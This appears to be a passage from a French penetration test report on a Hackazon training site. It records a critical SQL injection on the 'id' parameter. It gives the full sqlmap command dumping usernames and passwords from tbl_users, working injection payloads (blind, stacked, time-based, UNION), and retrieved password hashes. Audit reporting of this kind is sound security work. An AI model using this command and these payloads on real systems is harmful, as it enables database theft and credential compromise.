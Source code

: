 

###### 7.2 SQL Injection

| Intitulé                                                                 | Exploitation | Impact   | Criticité |
|--------------------------------------------------------------------------|--------------|----------|-----------|
| Injection SQL sur le paramètre `id` de `/product/view` permettant l’exfiltration de données sensibles | Élevé        | Critique | CRITIQUE  |


```bash
sqlmap -u "https://hackazon.trackflaw.com/product/view?id=1%400" -D hackazon -T tbl_users -C username,password --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.6#stable}                                                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:13:45 /2025-10-19/

[20:13:45] [INFO] resuming back-end DBMS 'mysql' 
[20:13:45] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=690bbb35d2d...289c0652ba;visited_products=%2C1%400%2C'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2' AND 1719=1719-- yAxG

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 6164 FROM (SELECT(SLEEP(5)))gbLu)-- DcGc

    Type: UNION query
    Title: Generic UNION query (NULL) - 27 columns
    Payload: id=-2883' UNION ALL SELECT CONCAT(0x716a716a71,0x6f426e47414b48644756716c794462786f504a78464f624e524a5062586b4f614d426c4144434652,0x717a707171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[20:13:49] [INFO] the back-end DBMS is MySQL
web application technology: Nginx, PHP 5.6.40, PHP
back-end DBMS: MySQL >= 5.0.12
[20:13:49] [INFO] fetching entries of column(s) 'password,username' for table 'tbl_users' in database 'hackazon'
[20:13:52] [WARNING] reflective value(s) found and filtering out
[20:13:52] [INFO] retrieved: '0a3d0c780b6df84f37e0b59cca77dfd3:142035250768e8b5c8c3e02','WhiteColors_'
[20:13:54] [INFO] retrieved: '5fead1f61e27d509cb9239aad141f2bf:6563806968e8b5d82320e','letgo'
[20:13:55] [INFO] retrieved: '1ad813738f0b099f5413d510ea769906:42257496968e8b5f04058e','w'
[20:13:57] [INFO] retrieved: 'e8d396b1eb9a95ace2facbaa2cf6eedd:159695652468e8b67a7783c','momotest'
```